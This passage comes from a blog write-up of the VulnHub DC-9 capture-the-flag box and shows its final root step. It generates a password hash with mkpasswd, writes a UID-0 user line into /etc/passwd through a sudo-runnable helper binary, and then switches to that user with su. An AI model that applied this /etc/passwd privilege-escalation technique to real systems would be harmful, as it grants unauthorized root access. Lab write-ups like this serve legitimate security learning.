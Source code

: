 ### Writing to /etc/passwd
Since we have sudo access to write to any file, one trick is to add ourselves as root by writing to `/etc/passwd`.
You can follow this [section](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd) from HackTricks for more details.

First, generate a password.

```bash
$ mkpasswd -m SHA-512 benkyou
$6$GBj/Ef3A7SyWHkhB$3eZ7tsbmnbaQJh69UrmR0uO7LBdXspfDBVbg4xjuUWeeJIOg2GU9Ue2kRSJTvXIAtmBwPbMZK4vLAO.WtNpQA1
```

Then, add the generated password according to the following format.

```
benkyou:$6$GBj/Ef3A7SyWHkhB$3eZ7tsbmnbaQJh69UrmR0uO7LBdXspfDBVbg4xjuUWeeJIOg2GU9Ue2kRSJTvXIAtmBwPbMZK4vLAO.WtNpQA1:0:0:/root:/bin/bash
```

Add this to a file, and run `test` with `sudo` to add the newly created user.

```bash
sudo /opt/devstuff/dist/test/test our_user.txt /etc/passwd
```

Now, we can su to our added user and gain root access.

![su to root](/assets/img/2024-06-17-vulnhub-dc9/switch_user.png)

And that’s the end of the box :)

![Root flag](/assets/img/2024-06-17-vulnhub-dc9/flag.png)
